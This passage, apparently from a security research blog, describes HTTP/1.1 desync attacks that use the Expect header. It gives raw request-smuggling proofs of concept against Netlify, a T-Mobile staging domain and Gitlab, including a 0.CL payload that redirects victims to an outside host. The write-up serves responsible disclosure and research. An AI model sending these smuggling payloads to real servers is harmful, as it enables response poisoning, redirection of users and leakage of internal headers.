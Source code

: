 All HTTP/1.1 responses have one header block - unless you send Expect. As a result, the second header block often takes parsers by surprise and breaks attempts from front-end servers to remove sensitive response headers. Here's an example:

`POST /_next/static/foo.js HTTP/1.1 Host: app.netlify.com` `HTTP/1.1 200 OK Server: Netlify X-Nf-Request-Id: <redacted>`

`POST /_next/static/foo.js HTTP/1.1 Host: app.netlify.com Expect: 100-continue` `HTTP/1.1 100 Continue Server: Netlify X-Nf-Request-Id: <redacted> HTTP/1.1 200 OK X-Bb-Account-Id: <redacted> X-Bb-Cache-Gen: <redacted> X-Bb-Deploy-Id: <redacted> X-Bb-Site-Domain-Id: <redacted> X-Bb-Site-Id: <redacted> X-Cnm-Signal-K: <redacted> X-Nf-Cache-Key: <redacted> X-Nf-Ats-Version: <redacted> X-Nf-Cache-Info: <redacted> X-Nf-Cache-Result: <redacted> X-Nf-Proxy-Header-Rewrite:<redacted> X-Nf-Proxy-Version: <redacted> X-Nf-Srv-Version: <redacted>`

I reported this example to Netlify and they said "this information is provided by design".

This technique also reveals hundreds of server/version banners that people have attempted to mask in an attempt to mitigate targeted exploits. Luckily, exposed server banners are more of a threat to compliance than anything critical.

### An unplanned collaboration

Around this time, I received a message from a small team of full-time bounty hunters - [Paolo 'sw33tLie' Arnolfo](https://x.com/sw33tLie), [Guillermo 'bsysop' Gregorio](https://x.com/bsysop), and [Mariani 'Medusa' Francesco](https://www.linkedin.com/in/francesco-mariani-85841b1b3). They had also noticed the Expect header making interesting things happen. They had a solid research pedigree - their exploration of [TE.0 Request Smuggling](https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/) landed third in the [Top Ten Web Hacking Techniques of 2024](https://portswigger.net/research/top-10-web-hacking-techniques-of-2024). As such, we decided to team up.

We ended up exploiting many, many targets. Our findings fell into four broad categories:

### 0.CL desync via vanilla Expect - T-Mobile

Simply sending a valid Expect header causes a 0.CL desync on numerous different servers. I believe this is caused by a broken Expect implementation in the front-end server, which makes it correctly forward the headers, but get confused by the back-end's non-100 reply and forget it still needs to receive a body from the client.

Here's a proof of concept we built targeting a T-Mobile staging domain:

`GET /logout HTTP/1.1 Host: <redacted>.t-mobile.com Expect: 100-continue Content-Length: 291` `HTTP/1.1 404 Not Found` `GET /logout HTTP/1.1 Host: <redacted>.t-mobile.com Content-Length: 100 GET / HTTP/1.1 Host: <redacted>.t-mobile.com GET https://psres.net/assets HTTP/1.1 X: y` `HTTP/1.1 200 OK` `GET / HTTP/1.1 Host: <redacted>.t-mobile.com` `HTTP/1.1 301 Moved Permanently Location: https://psres.net/…`

[T-Mobile](https://bugcrowd.com/engagements/t-mobile) awarded us $12,000 for this finding - a highly competitive payout for a non-production domain.

### 0.CL desync via obfuscated Expect - Gitlab

Sending a lightly obfuscated Expect header exposes a substantial number of new targets. For example, "Expect: y 100-continue" causes a 0.CL desync on h1.sec.gitlab.net. This was an interesting target as it holds the attachments to reports sent to Gitlab's bug bounty program - potentially critical zerodays.
